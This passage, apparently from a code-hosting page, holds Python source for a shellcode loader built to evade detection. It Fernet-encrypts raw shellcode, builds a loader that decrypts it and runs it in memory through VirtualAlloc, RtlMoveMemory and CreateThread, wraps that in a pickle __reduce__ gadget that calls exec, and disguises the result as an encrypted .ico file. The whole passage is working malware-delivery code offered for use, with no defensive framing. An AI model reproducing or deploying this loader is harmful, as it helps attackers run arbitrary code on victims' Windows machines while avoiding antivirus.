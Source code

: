 ```python
        key = Fernet.generate_key()
        f = Fernet(key)
        enc_pay = f.encrypt(bytes(bytearray(file.read())))
    with open('Encrypt_test.ico','w+') as file:
        file.write(enc_pay.decode())
        #print('加密完成,加密后的文件为Encrypt_test.ico,加密key={}', format(key))
    return key
```



### PickleDump.py	

```python
import pickle
from encrypt import EncryptTXT,EncryptICO

key = EncryptTXT('shellcode.txt')
shellcode="""
import ctypes
from cryptography.fernet import Fernet

f= open('Encrypt_shellcode.txt', 'rb')
shellcode= f.read()
key= {0}
f_obj= Fernet(key)
shellcode= f_obj.decrypt(shellcode)
shellcode= bytearray(shellcode)

ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
""".format(key)


class A(object):
   def __reduce__(self):
       return(exec,(shellcode,))

if __name__ == '__main__':
    ret = pickle.dumps(A())
    with open("test.ico", 'wb')as img:
        img.write(ret)
    key = EncryptICO('test.ico') #对test.ico
    print(key)
```
